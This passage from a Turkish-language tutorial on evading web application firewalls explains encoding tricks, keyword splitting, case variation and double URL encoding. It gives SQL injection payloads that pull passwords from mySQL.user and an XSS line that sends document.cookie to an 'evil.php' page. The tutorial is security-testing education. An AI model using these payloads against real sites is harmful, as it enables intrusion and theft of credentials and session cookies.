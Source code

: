  Burada ayaküstü şekilde ilk bypassımızı gerçekleştirmiş olduk. Peki nasıl oldu? Çok basit. DVWA üzerinde 'dvwa' yazısını encode ettik. Çünkü tırnak işareti yasaklı karakterdi. Ve biz bunu aştık.<br><br>
 
 
### Anahtar Kelime Değiştirme
Çoğu zaman anahtar kelime yani keywordler engellendiğine dair örnekler sorgudan geçtikten sonra filtrelenme aşamasına gelir ve ardından da ortadaki key sözcüğü silinecek şekilde baştan ve sondan gelen verileri birleştirir. Ve sunucuda yeni yürütülecek bir keyword oluşturur. Katman mantığı ile çalışırlar. İzahı zor bir konudur. Ancak elimden geldiğince anlaşılır şekilde anlatacağım. SQL örneğimiz üzerinden devam edelim.

```
‘ union selselectect password from mySQL.user limit 1 /*
```

Şu anda WAF in 'select' anahtar kelimesini engellediğine dair örnek bir filtre inceliyoruz. Sorgu isteği kabul edilip, ardından filtrelendikten sonra ortadaki 'select' anahtar kelimesi silinecek ve yeni bir 'select' anahtar kelimesi oluşturacaktır.<br>

Dizelerde birleştirme ile SQL anahtar kelimeyi bölebilir ve WAF filtrelerini atlayabiliriz. Birleştirme sözdizimi, veritabanı motoruna göre değişebilir. Örneğin bir MsSQL veritanabanında 1'i seç komutu birleştirme kullanılarak değişebilir.

Yazdığım örneklerdeki gibi, WAF’ları atlamanın etkili yollarından biridir.<br>

Çoğu zaman WAF ların kullandığı filtrelerin büyük / küçük harflere duyarlı anahtar sözcükleri varsa, WAF filtreleri, sağlanan bir sorgudan kötü amaçlı bir anahtar kelimeyi filtreleyemez. Örnek olarak veritananına select büyük ve küçük harfleri engelleyebiliyorsa, ancak yanlızca bu kontrolleri yapıyorsa SeLeCt gibi bir değerin sağlanmasını engellenmeyecek ve WAF’ı bypass edecektir. Bu XSS saldırıları içinde geçerlidir, ve şu şekilde kullanılabilir.<br>

```
var adr = ‘../evil.php?cakemonster=’ + escape(document.cookie);
```

Bu bölümün başında da söylediğim gibi, kodumuz hedefine ulaşasaya kadar var olabilecek birçok katman vardır. Şimdiye kadar, dizeleri kodlamanın tek yollarını inceledik. Ancak zincir şeklinde birçok WAF ve birçok kod yazmamız gerekecek.

Şimdi ise web sunucusundaki URL kodunun çözdüğü, ancak WAF ların ayrıca güvenlik amacıyla URL kod encode ettiği bir senaryoyu ele alalım. Bu seferki SQL örneği kodumuş şu şekildedir.

```
%2527%2520union%2520select%2520password%2520from%2520mySQL.user%2520limit%25201%2520%25 2F*
```

Bu dize kodunda URL encode örneğimizdeki ile aynı ancak aynı şekilde bir kez daha kodlanmıştır. Bu durumda WAF bu dizenin kodunu çözdüğünde hala kodlandığı ve kötü amaçlı kodu bulamadığı için onu engelleyemez. Web sunucusu aşamasında, dize tekrar çözülecek ve doğru şekilde çalışacaktır. Kısaca Bypass kodumuz işlevini yerine getirecektir. Öyleyse devam edelim.<br><br>


### WAF’ı SQL Injection ile Bypasslamak
Şimdiye kadar, örneklerimizin çoğu WAF Bypassing için SQL sorguları kullanıyordu. Bunun nedeni, WAF bypassing de kullanılan en yaygın saldırının SQL Inj. olmasıdır. Ama SQL’in kendisiyle başlayalım. SQL (Yapılandırılmış Sorgu Dili’nin kısaltması), veritabanlarının tasarımında ve yönetiminde kullanılan bir sorgu dilidir. Bugün kullanılan ürünlerin çoğu, SQL Server, MySQL ve diğerleri gibi ilişkisel veritabanlarıdır. Veritabanları, satırları ve sütunları olan tablo benzeri bir yapıda depolanan verilere sahiptir.
